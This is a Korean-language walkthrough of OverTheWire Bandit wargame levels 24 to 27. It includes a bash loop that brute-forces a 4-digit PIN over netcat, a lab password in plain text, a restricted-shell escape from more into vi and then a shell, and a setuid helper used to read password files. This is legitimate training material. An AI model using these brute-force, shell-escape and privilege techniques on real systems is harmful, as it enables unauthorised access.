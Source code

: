 <h1>Bandit-Wargame 24 -> 25 </h1>
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

*무작위 대입 공격(브루트 포스 공격)*
- 가능한 모든 조합을 다 넣어 보는 것
- 비밀번호가 복잡하면 복잡할수록 경우의 수가 기아급수적으로 늘어난다. -> 우리가 비밀번호를 복잡하게 쓰는 이유


1. 어떤 프로그램이 실행중인데 30002 포트를 사용한다. 24의 비밀번호와 4자리의 숫자 핀코드를 보내주면 25의 비밀번호를 전달 해준다.
2. 들어가는 방법 -> `nc localhost 30002`
- 이미 24의 비밀번호는 알고 있지만, 핀코드 4자리 숫자를 모르기 때문에 그것을 풀어야하는 문제이다.
3. 0000 ~ 9999 까지 브루트 포스 공격을 할 것이다. (반복문을 사용하여)
- `mkdir /tmp/bandit24_jeff; cd /tmp/bandit24_jeff`

  test.sh
  #! /bin/bash
  for i in {1..9}
  do
    echo $i
 done
- chmod로 파일 권한을 꼭 열어줘야 실행이 된다! `chmod u+x test.sh`

 이번엔 00 부터 99까지

 #! /bin/bash

 for i in {00..99}
 do
    echo $i
 done
```
```
본격적인으로 넣을 스크립트
 #! /bin/bash

 for i in {0000..9999}
 do
    echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
 done

- 이제는 이것의 결과를 화면에 출력하는것이 아닌 nc 로 넘겨줘야한다.
- 실행시 `./test.sh | nc localhost 30002` -> 하지만 너무 wrong 우롱이 많아서 필요한 것만 끌어내기 위해서 grep -v 옵션을 사용하고 개인적으로 대소문자 구별을 하지 않기 위해 -i 옵션 까지 추가로 넣어 주엇다.
- ./test.sh | nc localhost 30002 | grep -v -i "wrong"



<h1>Bandit-Wargame 25 -> 26 </h1>
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

1. bandit26의 sshkey가 있어서 `ssh -i` 를 이용하여 접속 하니깐 되는 것 같았는데 안됬다 
- ![image](/assets/bandit(2)/6.png)
2. 이것도 bashrc를 건든것이 아닐까 생각할 수 있지만 문제를 보면 bash 쉘이 아니라고 한다
- `cat /etc/passwd | grep -i bandit26` -> 끝에 /usr/bin/showtext 라고 되어있다.
- 무엇을 실행하는지 파일을 읽어봐야겠다.

 #!/bin/sh

 export TERM=linux

 exec more ~/text.txt
 exit 0
 
- 이러한 내용이 들어있다. -> 무언가 파일을 실행하고 그냥 exit 되기 때문에 그냥 바로 종료 되었다.

3. more 명령어의 특징
- cat과 똑같이 글씨를 나타내지만 more는 화면 사이즈에 맞게 출력할 수 있는 양 만큼만 출력하고 스페이스바로 다음으로 넘어갈 수 있게 나타난다.
- 그리고 more를 사용하면 특이하게 안쪽에서 알파벳 v를 누르면 vi를 실행 할 수 있는데, 또 vi에서는 특정 명령어를 실행 할 수가 있다.
- 그래서 우리가 할 것 `more -> vi -> shell` 으로 전략을 구성할 것이다.

4. ssh 접속을 할 때 터미널 화면을 충분히 작게 하고 다시 접속하면 more가 나올 것이다.
- ![image](/assets/bandit(2)/7.png)
- 그리고 vi 에서 쉘을 실행하는 방법 -> `:set shell=/bin/bash` -> `:sh`
- 26의 비밀번호 까지 알아야 하니깐 -> `cat /etc/bandit_pass/bandit26`

5. 하지만 다음에 bandit26으로 로그인 할때 다시 화면을 작게 하고 more -> vi -> shell 순으로 다시 들어가면 된다.


<h1>Bandit-Wargame 26 -> 27 </h1>
Good job getting a shell! Now hurry and grab the password for bandit27!

1. setuid 가 설정된 파일이 또 하나 있다.
2. 이전에는 파일을 실행 시키고 뒤에 명령어로 비밀번호를 따왔지만 이번에는 다른 방법으로 -> `./bandit27-do /bin/sh` -> `cat /etc/bandit_pass/bandit27` -> 문제가 살짝 수정된거같다.
3. 그래서 그냥 `./bandit27-do cat /etc/bandit_pass/bandit27`를 통해서 비밀번호 추출